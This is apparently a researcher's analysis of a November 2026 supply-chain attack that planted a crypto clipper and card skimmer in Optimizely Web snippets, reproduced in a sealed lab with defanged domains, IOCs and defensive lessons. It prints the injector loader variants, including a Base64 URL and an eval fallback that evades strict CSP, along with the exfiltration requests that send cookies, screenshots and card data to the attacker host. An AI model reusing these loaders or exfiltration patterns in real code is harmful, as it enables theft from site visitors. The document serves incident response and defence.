


The Optimizely Skimmer, Detonated: Ten Real Builds, One Hidden Iframe, and Why CSP Wasn't Enough
On 16 November 2026 malicious code was added to Optimizely Web snippets on 178 organisations' sites. I recovered ten real builds of the payload, ran the final one in a sealed Azure lab against fake shop, news and bank pages, and recorded every theft. The payload swapped wallet addresses, rewrote the clipboard and withdrawal fields, and skimmed a test card. On a site with a strict CSP it still stole the crypto, just without phoning home.
A lab investigation, not a honeypot capture. Payload builds were recovered from the Internet Archive and checked against the SHA-256 values published by Report URI, StepSecurity and HECAVEX. Everything ran inside a sealed Azure lab: no request from the test browser reached the internet. Domains are defanged. Wallet addresses shown are the attacker's (published IOCs) or well-known public test addresses. The card is the standard Visa test number.
1. Summary
On Monday 16 November 2026 someone gained write access to the Project JavaScript of customer projects on Optimizely Web, the A/B-testing platform. Project JavaScript is a box where a marketing team can type code that runs on every page view, with no engineering release. The attacker typed a loader into it. For roughly 16 hours, visitors to 178 organisations' sites, including major banks, broadcasters and retailers, ran the attacker's code. Report URI's Scott Helme raised the alarm. Most snippets were clean by 23:11 UTC, and the payload domain was put on clientHold at 00:37 UTC on 17 November.
The company websites were not breached. The code arrived from cdn.optimizely.com, a domain those sites trust and allowlist, with a valid certificate. The payload, track.js on 1688360[.]cc, was rebuilt 26 times in one day.
The domain is dead now, so you can't watch it live. I wanted to see it act, so I rebuilt the attack in a lab:
- I recovered ten distinct builds from the Wayback Machine. Nine match published hashes. One has not been reported, and it adds a hidden iframe to a domain that isn't on any IOC list.
- I ran the final build in Edge and Chrome on three fake sites, one per loader variant, with a scripted "victim" who copies a deposit address, types a withdrawal address and pays with a test card.
- In the lab, every crypto address on the page was swapped within four seconds. The clipboard and the withdrawal field were rewritten. The test card went to
card.php, and a screenshot of the hijacked page went tohit.php. - On the site with a strict Content Security Policy, CSP blocked every byte of exfiltration, and the wallet theft still worked.
2. How a Trusted Snippet Became a Loader
A site that uses Optimizely Web loads one tag, https://cdn.optimizely.com/js/<projectId>.js. Optimizely builds that file from the customer's project settings, including the Project JavaScript. The attacker didn't touch the CDN; the CDN served exactly what the project said. How they got write access to so many projects is still unconfirmed. Three loader shapes were reported, and my lab reproduces all three:
// Variant 1: plain script reference (seen on the Zoom snippet)
var s=document.createElement('script');s.src='https://1688360[.]cc/track.js';s.async=true;
document.head.appendChild(s);
// Variant 2: the URL hidden in Base64, plus data-cfasync so Cloudflare Rocket Loader leaves it alone
s.setAttribute('data-cfasync','false');s.src=atob('aHR0cHM6Ly8xNjg4MzYwLmNjL3RyYWNrLmpz');
// Variant 3: the whole payload embedded in Base64, run with (0,eval) if the remote load fails
// (seen on the BBC snippet; this is the "backup copy" that defeated a strict CSP)
s.onerror=boot; setTimeout(function(){ if(!window._k7) boot(); },2500);
function boot(){ (0,eval)(atob(P)); }Variant 3 matters most. A CSP can stop the browser fetching track.js. It can't stop code that is already inside an allowed script, if the policy permits eval. Many sites that run tag managers and A/B tools allow 'unsafe-eval'.
3. The Lab
Two Azure VMs in their own VNet, with no peering. A Windows 11 VM with Edge and Chrome has no public IP. Its only route out is a Linux gateway. The gateway runs:
- dnsmasq to answer every DNS query. In contain mode every name resolves to a sinkhole address, and only Microsoft domains resolve for real, for Defender.
- mitmproxy in transparent mode, so all web traffic stops at the gateway. In contain mode every request is answered locally, even ones sent to a hard-coded IP, and every request body is saved.
- iptables to drop all other forwarded traffic, plus tcpdump to record the lot.
Before running anything I tested containment from inside Windows:
DNS example.com -> 198.18.0.10 (sinkhole)
DNS google.com via 8.8.8[.]8 -> 198.18.0.10 (forced through the gateway)
HTTP to the C2's real IP -> 200 X-WebSC=sinkhole
TCP 1.1.1[.]1:853, 8.8.8[.]8:22 -> blockedThe sinkhole served the real payload as https://1688360[.]cc/track.js. It also served replica Optimizely snippets (projects 9999991–3, clearly labelled as lab code) carrying the three loader variants, and three test sites built like a crypto-friendly bank page: deposit addresses, a withdrawal field and a card form. A Playwright script played the victim. After every run the report counted flows that were answered upstream. It was zero for every run.
4. Ten Builds in One Day
The Wayback Machine crawled track.js 82 times on 16 November, often with the loader's ?cb= cache-buster. The archived bytes are gzip-compressed. Once decompressed, they hash to these builds:
| Served (UTC) | Build | SHA-256 (first 16) | What changed |
|---|---|---|---|
| 08:08 | 08:01, first | 1ec4245b3b303304 | A rule-engine kit: JSON rules with code in reversed Base64. Rule 5 is the clipper (ETH, BTC, TRON). Rule 2 loads the iOS router. |
| 12:08 | 11:57 | 6c4ba79e7c33c479 | Engine dropped and logic hard-coded. Adds hook.php cookie polling, gated on HubSpot's hsLoggedIn. |
| 13:29 | 13:19 | 0a0b51d06647c249 | By now: TON, SOL, LTC and BCH (added 12:47), the payment-keyword gate, and hit.php with html2canvas screenshots. |
| 15:48 | 15:28 | e78dbfc1454a0c95 | By now: the card skimmer (card.php, added 13:39), DOGE, hook.php removed (14:25), and patches to Function.prototype.call/apply (15:21). |
| 15:57 | 16:01 | 617df364120adc47 | TON raw addresses (0:<hex>). These bytes were already live at 15:57. |
| 16:00 | unreported | 95084ed33db1416c | The same, plus a 2-pixel iframe to ua23[.]online/ch/pub03 (section 10). |
| 16:04 | 16:01 | 617df364120adc47 | Rolled back to the previous bytes. The redeploy explains the published 16:01:58 timestamp. |
| 16:27 | 16:11 | 450794992ffe035d | navigator.share hook. |
| 17:10 | 17:05 | 814a963c0da480e2 | Second iOS router (eil786npto9u5bq[.]icu). |
| 17:45 | 17:45 | 56db932faef107b4 | Hidden iframe for iOS 18.6 and earlier. |
| 20:16 | 17:56, final | f7b84b9a94f749f8 | Final build, live until the domain went on hold. This is the one I detonated. |
The first build gives the author away. It's a generic traffic kit: each rule has an ID, a name ("Crypto address clipper (all countries)"), a percentage, device targeting and Base64 code, and it calls /_geo and /px as relative paths on the page's own domain. That's a design for sites the operator controls. Dropped onto news and bank sites, those paths 404 or 405, and other researchers saw POST /px returning 405 on bbc.com. Rule IDs 5 and 2 suggest at least three other rules in the panel. HECAVEX only sees those relative paths in the 08:01 to 08:30 builds, so within about an hour the engine was gone and everything was hard-coded.
5. What It Did to a Victim
The same result in Edge and Chrome, for all three loader variants:
| Victim action | What the page showed |
|---|---|
| Opens the deposit page | Within 4 s, ETH 0xd8dA…6045 → 0xC4026b06…17884e, BTC 1A1zP1…DivfNa → 19g9rZcP…c3kW, TRON TR7NHq…jLj6t → THvs6p56…sTYqxa |
| Clicks "Copy ETH address" | Clipboard holds the attacker's ETH wallet |
| Types their own withdrawal address and tabs out | Field silently rewritten to the attacker's wallet |
| Pays with the test card | Page works normally; the card is sent to the attacker in parallel |
The clipper is careful. It doesn't swap anything that merely looks like an address. It decodes Base58Check and runs double SHA-256, checks Bech32 and CashAddr polynomials, and checks TON CRC16, so only valid addresses for the right chain are replaced. A word like deposit, wallet, send or pay must sit within 90 characters, which keeps false positives (and noise) low. It rescans the page every 50 ms. It also wraps every channel an address can travel through: text nodes, inputs (through the native value setter, so React and Angular see the change), links, onclick attributes, the copy event, the Clipboard API, navigator.share, fetch, XHR, window.open and history.pushState. From 15:21 it also wraps Function.prototype.call and apply, so any address passed through any function call is rewritten.
The skimmer is just as fussy. It wants a Luhn-valid number with a known brand prefix (Troy, Mir and UnionPay are included), an expiry in the next 15 years, and a 3- or 4-digit CVV. It finds them in form submits and in fetch or XHR POST bodies, whether JSON, form-encoded or FormData. It can't read card fields inside a cross-origin payment iframe.
6. What It Sent Home
The sinkhole kept every byte. Within one page view:
POST https://1688360[.]cc/hit.php text/plain, about 25 KB
{"u":"https://shop.websc-lab.test/","c":"<document.cookie>",
"i":"<base64 JPEG>","m":"0xd8dA… 1A1zP1… TR7NHq…"}
POST https://1688360[.]cc/card.php navigator.sendBeacon, 73 bytes
n=4111111111111111&e=12/29&c=123&u=https://shop.websc-lab.test/hit.php fires only after a successful swap. It sends the page URL, readable cookies (up to 8,000 characters), the original addresses it replaced (so the operator knows what the victim expected) and a screenshot. Here is the screenshot the payload took of my test page and posted to the attacker:

The card goes out with sendBeacon, which survives page navigation. A duplicate guard stores cc_<number><expiry><cvv> in sessionStorage, in plain text. That's a forensic artefact on any affected browser profile.
7. The iOS Branch
I ran the same pages with an iPhone user agent (iOS 18.5). The payload added two scripts and a hidden iframe:
GET https://5vobauua3ojpklx[.]icu/boot.js data-channel-code="02111110"
GET https://eil786npto9u5bq[.]icu/boot.js
GET https://eil786npto9u5bq[.]icu/JIUJIU888/weifile.html (0x0 iframe at left:-1000px, iOS <= 18.6)
GET https://eil786npto9u5bq[.]icu/JIUJIU888/index.js (requested by weifile.html)The archived weifile.html is 346 bytes: no-cache headers and one <script src="index.js">. Public reporting ties that path to the Coruna kit (iOS 13–17) and the /B9/, /D11/ and /D12/ paths to DarkSword (iOS 18.x). My lab never had those stages. The routers return an empty body to anything that isn't a real iPhone, and Chromium with an iPhone user agent is not an iPhone. So this run shows the delivery chain, not the exploit. The useful point for defenders is that the chain is noisy on the network: two .icu domains and a JIUJIU888 path from a phone are easy to find in proxy or DNS logs.
8. The CSP Test
Reporting said one bank's policy "stopped the main script and the data theft, and a backup copy ran anyway". I built that case. The bank test site sends:
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval' https://cdn.optimizely.com;
connect-src 'self' https://*.optimizely.com; img-src 'self' data:;
report-uri https://bank.websc-lab.test/csp-reportThat's a reasonable policy for a site running an A/B tool. Here is what happened with loader variant 3:
| Step | Result |
|---|---|
Load 1688360[.]cc/track.js | Blocked by script-src, violation reported |
onerror → (0,eval)(atob(P)) | Ran, because 'unsafe-eval' is allowed |
| Load html2canvas from the payload host | Blocked, reported |
POST to hit.php (cookies, screenshot) | Blocked by connect-src, reported |
Beacon to card.php | Blocked by connect-src, reported |
| Swap deposit addresses, clipboard, withdrawal field | All worked |

CSP did its job on exfiltration, and the four violation reports are exactly the signal Report URI used to spot this campaign. But the clipper needs no network at all. It edits the page in place, and the victim sends the money. A policy that allows 'unsafe-eval' for a third-party tool leaves that path open.
9. What Your SOC Saw
In most enterprises the browsers were the exposure, not the servers. A typical finding looks like this. Endpoints show Edge or Chrome contacting 1688360[.]cc or webshell[.]lol while users read a legitimate news site. Defender logs ConnectionSuccess, but the remote IP is in Cisco Umbrella's block range (146.112.0.0/16). I reproduced the network side of that in the lab's block mode: DNS returned a block-page IP, the browser connected to it and got a 403, and the payload never loaded.
So ConnectionSuccess to a block IP is a blocked request, not a hit. There's one caveat the lab makes concrete. DNS blocking stops variants 1 and 2, but variant 3 carries the payload inside the Optimizely file, which DNS filtering allowed. For users who visited an affected site that served the embedded variant, "Umbrella blocked it" does not prove the clipper or skimmer didn't run. It only proves nothing was sent to the attacker's domain. In practice the risk is limited to people who paid by card or moved crypto on an affected site during those 16 hours. The detection post shows how to tell the cases apart.
10. New Findings
- An unreported build with a hidden iframe. The Wayback Machine captured
track.jsat 16:00:45 UTC with SHA-25695084ed33db1416cc08d917f97bf8455e02c9216455647c3ec20841523766ebd(28,717 bytes). That hash is not in the published 26-build lists. Its only difference from the build already live at 15:57 is one appended block:
The referrer policy means the iframe host receives the full URL of every victim page. The archive saw the previous bytes again at 16:04, so the author rolled the change back within minutes. That redeploy is the published 16:01:58 Last-Modified time.<iframe src="https://ua23[.]online/ch/pub03" height="2" style="border:0;display:block" referrerpolicy="no-referrer-when-downgrade"></iframe>ua23[.]onlineis behind Cloudflare and still resolves. The archive has three captures of a sibling channel,/ch/blue02, from 9–10 November, a week before the attack, and each returned an empty body to the crawler. I can't tell what the channel served. The naming (ch/pub03) and the referrer handling look like a traffic-distribution or monetisation feed. Treat the domain as an IOC and check your proxy logs for it. - A free hunting marker. Builds from 15:21 onward contain
TASK = 1;with no declaration, so every infected page gets a globalwindow.TASK === 1. Together with_k7,_cc,_shotand_qxc, that's a check any synthetic browser test can run against your own pages. - The first build was a rule engine. See section 4. It ties the operator to a reusable kit, not a one-off script.
11. IOCs
| Type | Indicator | Note |
|---|---|---|
| Domain | 1688360[.]cc | Payload, hit.php, card.php, hook.php, html2canvas.min.js, px.gif?e= |
| Domain | webshell[.]lol | Earlier injector, /get.js |
| Domain | 5vobauua3ojpklx[.]icu, eil786npto9u5bq[.]icu | iOS routers, /boot.js, /JIUJIU888/ |
| Domain | je4ft3gn8vxudum[.]icu, p55abnw2pnsz0bo[.]icu, 1y69gy2mdzaltz1[.]icu, gm38duxoihbmy5o[.]icu, l7bcsnwc7nzr3uo[.]icu | Related iOS infrastructure (HECAVEX) |
| Domain | ua23[.]online | New: iframe /ch/pub03 in the 16:00 build; /ch/blue02 seen 9–10 Nov |
| IP | 136.113.106[.]136, 34.96.213[.]201, 34.87.36[.]58 | Payload host and iOS routers (published) |
| SHA-256 | f7b84b9a94f749f8ced3f0112d0a66894e8bbc3b4aa5592021d1b8976a9bad40 | Final build (detonated here) |
| SHA-256 | 95084ed33db1416cc08d917f97bf8455e02c9216455647c3ec20841523766ebd | New: 16:00 build with the ua23 iframe |
| SHA-256 | 1ec4245b3b303304ea24a89b3b2351b0f0c085087050f517d23dcba9694c165a | First build (rule engine) |
| SHA-256 | f286c965982bee4225c4edda261ce8685a55721dd997ddedf106666101118c07 | JIUJIU888/weifile.html |
| Wallet | 0xC4026b06D82b0F0B363eda0642D61CfbDc17884e (EVM), 19g9rZcPeiz8rUvyWpTRyXXhPnjsWrc3kW (BTC), THvs6p56XkUiMkJeSc51cAP64u2RsTYqxa (TRON) | Replacement addresses; see the published lists for TON, SOL, LTC, BCH and DOGE |
| Page markers | window._k7, _cc, _shot, _qxc, window.TASK===1; sessionStorage["cc_…"] | Set by the payload |
| Strings | data-channel-code="02111110", track.js?cb=, (0,eval)(, aHR0cHM6Ly8xNjg4MzYwLmNjL3RyYWNrLmpz | Loader and iOS stage |
12. Lessons
- Anything that can push JavaScript to production is production. Tag managers, A/B tools and chat widgets with a "custom code" box need the same access control as your deploy pipeline: SSO, MFA, least privilege, change alerts and a review step.
- Allowlisting the vendor's domain is not a control against the vendor's content. Use Subresource Integrity where the file is static. Where it isn't (A/B snippets change often), monitor the file itself: hash it, diff it and alert on new domains,
atob(oreval(. - Drop
'unsafe-eval'if you can. In this lab it was the single setting between "CSP stopped the theft" and "CSP stopped the exfiltration but not the theft". - Collect CSP reports. Four violation reports per page view were the earliest, cheapest signal in this lab, and they're how the campaign was found.
- Read block-page telemetry carefully. A connection to a DNS-filter block IP is a block. But when the payload is embedded in an allowed file, a block on the payload domain doesn't prove the code didn't run.
Sources: Report URI, "World's Largest Brands Infected With Malware Via Optimizely" (16–17 Nov 2026); StepSecurity, "OPTIMJACK" (17 Nov 2026); HECAVEX, "Optimizely track.js Malware: Reverse Engineering and Hunting" (17 Nov 2026). Build hashes, timeline and iOS-stage details not observed in my lab come from these reports.